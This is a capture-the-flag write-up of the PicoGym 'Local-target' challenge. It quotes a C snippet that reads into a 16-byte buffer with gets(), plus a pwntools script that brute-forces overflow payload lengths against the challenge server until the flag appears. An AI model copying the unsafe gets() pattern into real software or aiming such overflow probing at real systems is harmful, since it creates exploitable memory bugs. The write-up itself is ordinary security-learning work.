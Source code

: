# PicoGym - Local-target

- Write-Up Author: looy3 


## Write up  

---
I first opened the source code. It indicated that the win condition would be achieved if I could set another variable named "num" declared right after the input char array (of 16). I guessed that because the input char array had an index of 16, any value greater than 16 entered into the array (through gets) would probably give me a buffer overflow. 	
```
  char input[16];
  int num = 64;

  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");

  printf("num is %d\n", num);
  ```
  Turns out that was not the case. Too lazy to work out the logic of what payload or payload length would be necessary, I decided to play around using a simple pwntools script which iteratively generated a greater 'A' payload. 
  ```
  from pwn import *


i=1
while i < 200:
   s = remote("saturn.picoctf.net", 63942)
   s.sendline(b"A"*i)
   print(i, s.recvall())
   i=i+1
   ```
Ironically, this script unintentionally gave me the flag. I guess this is because the ASCII value of A is 65. A 24 byte long payload seemed to do the trick. 

Things I don't understand:
- Why 24 and not 16?
- Why does num become such random numbers after 25? 